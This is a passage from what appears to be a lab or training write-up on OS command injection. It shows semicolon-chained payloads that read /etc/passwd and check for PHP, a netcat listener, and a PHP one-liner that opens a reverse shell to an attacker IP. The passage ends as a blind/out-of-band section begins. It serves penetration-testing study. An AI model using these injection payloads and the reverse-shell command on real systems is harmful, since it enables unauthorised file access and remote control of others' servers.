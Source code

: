 ```
; cat /etc/passwd; asd
```

<figure><img src="../../../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

Now let's try to get a shell:

{% embed url="https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#tools" %}

<figure><img src="../../../../.gitbook/assets/image (234).png" alt=""><figcaption></figcaption></figure>

I tried all the reverse shells, but it did not work for me, let's try to find other interesting reverse shells:

```
; which php; asd
```

<figure><img src="../../../../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

So there is PHP on this host, we could've tried with python or other stuff, but the webpage is a .php so it was easy hit

<figure><img src="../../../../.gitbook/assets/image (236).png" alt=""><figcaption></figcaption></figure>

```
┌──(root㉿kali)-[/home/kali]
└─# nc -lvp  9897
listening on [any] 9897 ...
```

remember to open a listener on your machine ->

```
; php -r '$sock=fsockopen("172.16.X.X",9897);exec("/bin/sh -i <&3 >&3 2>&3");'; asd
```

<figure><img src="../../../../.gitbook/assets/image (238).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (239).png" alt=""><figcaption></figcaption></figure>

We gained a successful shell!

### Blind / Out-of-Band <a href="#lecture_heading" id="lecture_heading"></a>

Now we go on another machine, let's test out what we can do and what it gives us back

<figure><img src="../../../../.gitbook/assets/image (243).png" alt=""><figcaption></figcaption></figure>

it's not as verbose as the last website, we only get OK if the request is a success, no details

So a good way of starting would be to test out what already worked for us, since the syntax must be similar :
